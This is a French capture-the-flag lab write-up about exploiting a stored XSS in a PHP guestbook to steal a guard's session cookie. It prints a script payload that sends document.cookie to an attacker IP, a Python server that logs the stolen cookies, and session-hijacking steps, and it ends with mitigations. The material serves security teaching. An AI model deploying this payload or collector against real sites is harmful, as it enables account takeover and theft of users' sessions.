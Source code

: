 ```yaml
---
title: 2 | CWE-79 et CWE-1004 - Stored XSS & Vol de Cookie
next: "/write-ups/wu3"
prev: "/write-ups/wu1"
---
```


# 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** `lannisport.south`
- **Page vulnérable :** `livre_dor.php`
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
    xhr.send();
</script>
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python {filename="capture_server.py"}                                                                
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Access-Control-Allow-Origin", "*")  # Permet les requêtes CORS
        self.end_headers()

        if "cookie=" in self.path:
            cookie = self.path.split("cookie=", 1)[1]  # Prend toute la valeur du cookie après "cookie="
            cookie = urllib.parse.unquote(cookie)  # Décode les caractères URL-encoded (%3D devient =)
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")

if __name__ == "__main__":
    server_address = ('10.10.10.20', 8000)  # IP Kali
    httpd = HTTPServer(server_address, Handler)
    print("Serveur en écoute sur le port 8000...")
    httpd.serve_forever()
```
*Veuillez changer l'**IP** en fonction de celle mise sur Kali*

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - Ubuntu Desktop)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```

✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (`F12`) > **Application** > **Cookies**.
- Modifier `PHPSESSID` avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer `HttpOnly` sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (`htmlspecialchars()`) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥